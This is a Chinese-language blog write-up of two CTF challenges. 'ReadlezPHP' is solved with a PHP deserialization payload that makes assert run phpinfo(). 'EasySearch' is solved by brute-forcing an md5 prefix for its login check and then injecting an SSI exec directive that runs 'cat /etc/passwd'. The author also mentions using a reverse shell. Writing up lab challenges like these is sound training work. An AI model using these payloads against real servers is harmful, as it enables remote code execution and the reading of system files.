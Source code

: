 ```yaml
---
title: ReadlezPHP&EasySearch
date: 2021-04-20 17:12:43
categories: 
- CTF
tags:
- 反序列化
- SSI注入
cover: https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/cover/20201120223513.jpg
---
```


# ReadlezPHP



源码找到`time.php?source`

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20210420175641.png)

```php
<?php
#error_reporting(0);
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "Y-m-d h:i:s";
        $this->b = "date";
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
$c = new HelloPhp;

if(isset($_GET['source']))
{
    highlight_file(__FILE__);
    die(0);
}

@$ppp = unserialize($_GET["data"]);
```

分析一波：最后一行一个反序列化，所以很明显是反序列化的题目，在`HelloPhp`中有一个`__destruct`方法，会在创建的对象销毁时执行，注意里面有一个echo输出，最重要的是后面的函数调用 ，好像是在PHP7某个版本之后只是使用形如`$a($b)`格式进行函数调用，假如变量`a`为字符串`var_dump`，`b`是任意字符串，就相当于调用var_dump函数且参数为b。

所以构造反序列化，调用assert函数执行phpinfo。如果向**assert()** 函数传递字符串，它将会被 **assert()** 当做 PHP 代码来执行)：

```
<?php
class HelloPhp
{
    public $a='phpinfo()';
    public $b='assert';
}

$s=new HelloPhp();
echo serialize($s);

```

POST请求

```
time.php?data=O:8:"HelloPhp":2:{s:1:"a";s:9:"phpinfo()";s:1:"b";s:6:"assert";}
```

页面查找flag，在environment中找到flag

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20210420175822.png)

# EasySearch

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20210420171541.png)

进入页面以后试了试sql注入发现没用。第一步是看了wp找到的：使用扫描器扫描到`index.php.swp`文件：

```php
<?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
		$content = uniqid().$random;
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
			***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
			echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";
            
    }else
    {
	***
    }
	***
?>
```

登陆功能又一个验证，需要传入的`passwd`参数使用**md5**加密以后是以**6d0bc1**开头的。简单写个脚本跑一下就有了：

```python
# codeing=utf-8
import hashlib

cnt=1;
while True:
    md=hashlib.md5(str(cnt).encode("utf8")).hexdigest()
    if md.startswith("6d0bc1"):
        print(cnt)
    cnt+=1
#2020666
#2305004
```

分析源码登陆以后会创建一个欢迎页，使用POST请求，抓包可以在响应头里找到创建文件的位置和名称。

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20210417102904.png)

看了看文件后缀是一格没有见过的：`shtml`，然后学到到了shtml有一种漏洞：[SSI注入漏洞](https://blog.csdn.net/qq_40657585/article/details/84260844)

> SSI 注入全称Server-Side Includes Injection，即服务端包含注入。SSI 是类似于 CGI，用于动态页面的指令。SSI 注入允许远程在 Web 应用中注入脚本来执行代码。

简单的命令执行

```code
"-->'-->`--><<!--#exec cmd="cat /etc/passwd"-->
```

我使用了反弹shell，自行修改一下命令即可。在/var/www/html目录下可以找到一个名为`flag_990c66bf85a09c664f0b6741840499b2`的文件，获得flag